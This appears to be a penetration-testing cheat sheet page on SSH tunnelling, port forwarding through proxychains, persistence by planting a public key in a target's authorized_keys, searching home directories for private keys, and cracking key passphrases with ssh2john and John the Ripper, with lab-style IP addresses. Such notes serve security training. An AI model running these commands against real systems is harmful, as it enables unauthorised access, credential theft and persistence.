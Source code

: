 ```yaml
---
icon: person-to-portal
---
```


# Pivoting/Lateral Movement

## <mark style="color:purple;">Lateral Movement</mark>

{% hint style="info" %}
### <mark style="color:orange;">`SSH`</mark> <mark style="color:purple;">Tunneling</mark>

* <mark style="color:purple;">Check with port is being used by</mark> <mark style="color:orange;">**`proxychains`**</mark>:

```sh
tail /etc/proxychains.conf
```

#### <mark style="color:purple;">Dynamic Port Forwarding</mark>

* <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">creating a</mark> <mark style="color:orange;">**`SOCK proxy`**</mark><mark style="color:purple;">**:**</mark>

```sh
ssh charix@10.10.10.84 -D 9050
```

* <mark style="color:purple;">Now just use</mark> <mark style="color:orange;">**`proxychains`**</mark><mark style="color:purple;">**:**</mark>

{% code title="VNC example" %}
```sh
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
{% endcode %}

***

#### <mark style="color:purple;">Local Port Forwarding</mark>

```sh
ssh -L 3306:localhost:3306 user@remotehost.com
```
{% endhint %}

***

## <mark style="color:purple;">Persistence</mark>

***

{% hint style="info" %}
## <mark style="color:purple;">Pivoting to</mark> <mark style="color:orange;">`SSH`</mark>

### <mark style="color:orange;">`SSH`</mark> <mark style="color:purple;">Key Injection</mark>

{% code title="Generate SSH Keys" %}
```sh
ssh-keygen -t ed25519 -f key
```
{% endcode %}

* <mark style="color:purple;">To make sure the execute properly give it restricted permissions:</mark>

```sh
chmod 600 id_rsa
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`authorized_keys`**</mark> <mark style="color:purple;">file doesn't exist create one with your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" > /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Other wise append your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" >> /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Now just connect with your private key:</mark>

```sh
ssh -i key dvir@10.10.11.8
```

### <mark style="color:purple;">Using Existing keys</mark>

{% code title="Look for the private key" %}
```bash
find /home/user -name "id_*" -exec cat {} \;
```
{% endcode %}

* <mark style="color:purple;">Once you find it, just copy the key in your</mark> <mark style="color:orange;">**`.ssh`**</mark> <mark style="color:purple;">directory and ssh in.</mark>
* <mark style="color:purple;">Also you can, check If the Corresponding private/public Key is known by using this</mark> [<mark style="color:orange;">**`repo`**</mark>](https://github.com/rapid7/ssh-badkeys)<mark style="color:purple;">.</mark>

### <mark style="color:purple;">Crack the passphrase</mark>&#x20;

***

* <mark style="color:purple;">Once you got the private key, you can use</mark> <mark style="color:orange;">**`ssh2john`**</mark> <mark style="color:purple;">to generate a hash from the key:</mark>

```bash
ssh2john private_key > private_key.hash
```

* <mark style="color:purple;">Then feed this hash into</mark> <mark style="color:orange;">**`John the Ripper`**</mark><mark style="color:purple;">:</mark>

```bash
john private_key.hash --wordlist=/path/to/wordlist
```
{% endhint %}

